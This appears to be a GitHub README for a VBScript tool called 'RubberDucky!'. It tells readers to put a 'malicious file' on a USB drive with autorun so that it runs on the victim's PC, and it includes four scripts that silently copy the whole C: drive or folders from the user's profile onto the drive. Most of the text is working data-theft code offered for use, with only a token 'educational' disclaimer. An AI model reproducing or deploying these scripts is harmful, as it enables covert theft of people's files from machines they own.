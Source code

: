 # RubberDucky!
* Copyright :copyright: 2023
* Written by: @caiolz10

### [√] Description :

***Ultimate script to execute malicious script in second-plan with VBScript.***

<p align="center">
<a href="https://github.com/cxiolz/RubberDucky"><img title="GitHub version" src="https://img.shields.io/badge/version-1.0-blue" ></a>  
</p>
<img src="https://raw.githubusercontent.com/cxiolz/RubberDucky/Images/Simple%20HomeMade.jpg">
<p align="center">

 <img src="https://img.shields.io/badge/Author-cxiolz-purple?style=flat-square">
 <img src="https://img.shields.io/badge/Open%20Source-Yes-cyan?style=flat-square">
 <img src="https://img.shields.io/badge/Made%20in-Brazil-green?colorA=%ffff00&colorB=%ffff00&style=flat-square">
 <img src="https://img.shields.io/badge/Written%20In-VBScript-blue?style=flat-square">
 
 ### Requirements

 - `USB Pen-Drive`
 
 - `USB AutoRun`

APP         | Installation
-----------|--------------
USB AutoRun      | [Download](https://usb-autorun-creator.softonic.com.br/).

 - `VBScript`
 - `Windows 10 +`

### USAGE 
1. Run the notepad
2. Write a new VBScript 
3. Save the notepad to .VBS
4. Run USB AutoRun
5. Put the Malicious File in your PenDrive
6. It's Done! Now you have a RubberDucky

### TYPES OF MALICIOUS SCRIPT
<h1 align="center">Example</h1>

#### This command will run a copy of all data on the computer
```
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Defina o diretório de origem e destino para a cópia dos dados
strSourceFolder = "C:\"
strDestinationFolder = "D:\Backup"

' Função recursiva para copiar todos os arquivos e subpastas
Sub CopyFolder(strSource, strDestination)
    If Not objFSO.FolderExists(strDestination) Then
        objFSO.CreateFolder(strDestination)
    End If

    Set objFolder = objFSO.GetFolder(strSource)
    Set colFiles = objFolder.Files

    ' Copiar todos os arquivos
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestination & "\" & strFile
    Next

    ' Copiar todas as subpastas
    For Each objSubfolder in objFolder.Subfolders
        strSubfolder = objFSO.GetFolderName(objSubfolder)
        CopyFolder objSubfolder.Path, strDestination & "\" & strSubfolder
    Next
End Sub

' Chamar a função para iniciar a cópia
CopyFolder strSourceFolder, strDestinationFolder


```
#### This command will run a copy of a specific folder on the computer
```
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Defina o diretório de origem e destino para a cópia dos dados
strSourceFolder = "C:\Caminho\para\pasta\origem"
strDestinationFolder = "D:\Caminho\para\pasta\destino"

' Verificar se a pasta de origem existe
If objFSO.FolderExists(strSourceFolder) Then
    ' Verificar se a pasta de destino existe, caso contrário, criar
    If Not objFSO.FolderExists(strDestinationFolder) Then
        objFSO.CreateFolder(strDestinationFolder)
    End If

    ' Obter os arquivos da pasta de origem
    Set objFolder = objFSO.GetFolder(strSourceFolder)
    Set colFiles = objFolder.Files

    ' Copiar cada arquivo para a pasta de destino
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestinationFolder & "\" & strFile, True
    Next

    WScript.Echo "A cópia de dados foi concluída com sucesso."
Else
    WScript.Echo "A pasta de origem não existe."
End If


```
#### This command will run a copy of a specific folder on the computer inside the currently logged in users folder.

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objShell = CreateObject("WScript.Shell")

' Obter o caminho da pasta de usuários
strUserProfile = objShell.ExpandEnvironmentStrings("%USERPROFILE%")

' Definir o caminho da pasta de origem e destino
strSourceFolder = strUserProfile & "\Caminho\para\pasta\origem"
strDestinationFolder = "D:\Caminho\para\pasta\destino"

' Verificar se a pasta de origem existe
If objFSO.FolderExists(strSourceFolder) Then
    ' Verificar se a pasta de destino existe, caso contrário, criar
    If Not objFSO.FolderExists(strDestinationFolder) Then
        objFSO.CreateFolder(strDestinationFolder)
    End If

    ' Obter os arquivos da pasta de origem
    Set objFolder = objFSO.GetFolder(strSourceFolder)
    Set colFiles = objFolder.Files

    ' Copiar cada arquivo para a pasta de destino
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestinationFolder & "\" & strFile, True
    Next

    WScript.Echo "A cópia de dados foi concluída com sucesso."
Else
    WScript.Echo "A pasta de origem não existe."
End If

```
#### This command will run a copy of a specific folder on the computer inside the currently logged in users folder. Copy only files less than 1000 kb.
```
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objShell = CreateObject("WScript.Shell")

' Obter o caminho da pasta de usuários
strUserProfile = objShell.ExpandEnvironmentStrings("%USERPROFILE%")

' Definir o caminho da pasta de origem e destino
strSourceFolder = strUserProfile & "\Caminho\para\pasta\origem"
strDestinationFolder = "D:\Caminho\para\pasta\destino"

' Função para copiar arquivos com menos de 1000 KB
Sub CopyFiles()
    ' Verificar se a pasta de origem existe
    If objFSO.FolderExists(strSourceFolder) Then
        ' Verificar se a pasta de destino existe, caso contrário, criar
        If Not objFSO.FolderExists(strDestinationFolder) Then
            objFSO.CreateFolder(strDestinationFolder)
        End If

        ' Obter os arquivos da pasta de origem
        Set objFolder = objFSO.GetFolder(strSourceFolder)
        Set colFiles = objFolder.Files

        ' Copiar arquivos com menos de 1000 KB para a pasta de destino
        For Each objFile in colFiles
            If objFile.Size < 1000000 Then ' 1000 KB = 1000 * 1024 bytes
                strFile = objFSO.GetFileName(objFile)
                objFSO.CopyFile objFile.Path, strDestinationFolder & "\" & strFile, True
            End If
        Next

        WScript.Echo "A cópia de dados foi concluída com sucesso."
    Else
        WScript.Echo "A pasta de origem não existe."
    End If
End Sub

' Chamada da função para copiar arquivos
CopyFiles()

```

### DISCLAIMER
                                       TO BE USED FOR EDUCATIONAL PURPOSES ONLY

The use of the RubberDucky! is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. 
